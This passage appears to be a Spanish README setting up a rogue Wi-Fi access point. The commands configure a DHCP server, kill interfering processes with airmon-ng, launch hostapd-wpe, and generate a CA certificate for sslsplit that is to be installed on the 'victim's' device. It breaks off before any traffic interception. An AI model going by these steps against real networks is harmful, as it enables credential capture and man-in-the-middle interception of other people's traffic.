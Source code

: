 Abrir el siguiente archivo.
```
sudo nano /etc/default/isc-dhcp-server
```

Modificarlo de la siguiente forma.
```
INTERFACESV4="wlan0"
# INTERFACESV6=""
```

## Iniciar

Nota: Correr en el mismo orden en caso de reiniciar el sistema
```
sudo ifconfig wlan0 172.16.0.1 netmask 255.255.255.0
sudo systemctl start isc-dhcp-server.service
sudo systemctl status isc-dhcp-server.service
```

Ir nuevamente a la carpeta.
```
cd
cd pruebas
```

Ejecutar nuevamente el script.
```
sudo ./ip.sh
```

Ejecutar los siguientes comandos:
```
sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng check
```

*AQUI NO SE LO QUE HACE.*
```
sudo hostapd-wpe host.conf
```

## SSL

Vamos nuevamente a la carpeta y creamos otra.
```
cd
cd pruebas
mkdir sslsplit
cd sslsplit
```

Generar el certificado. `Debe ser instalado en el dispositivo de la víctima`.
```
openssl genrsa -out ca.key 4096
openssl req -new -x509 -days 1826 -key ca.key -out ca.crt
```
